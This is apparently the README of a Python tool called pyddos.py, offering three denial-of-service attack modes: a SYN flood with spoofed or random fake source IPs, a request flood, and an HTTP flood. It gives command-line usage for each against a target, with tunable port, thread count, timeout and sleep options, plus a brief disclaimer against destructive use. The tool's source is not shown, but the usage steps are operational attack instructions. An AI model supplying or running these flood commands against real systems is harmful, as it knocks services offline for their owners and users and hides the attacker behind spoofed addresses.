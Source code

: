 # pyddos.py

* This is my new update 
* This script have 3 type of ddos attack : SYNFLOOD | REQUEST | REQUEST+HTTP FLOOD
* Don't use this for destructive purposes i won't reponsible your illegal employment

# Usage
For synflood attack:
* ./pyddos.py -d your_target -i (ip you use spoofed ip) --fakeip if you want use random fake ip --synflood

For request site:
* ./pyddos.py -d your_target --request

For request + http flood:
* ./pyddos.py -d your_target -p port(default=80) -T number_of_threads -t timeout_socket -s sleep_time
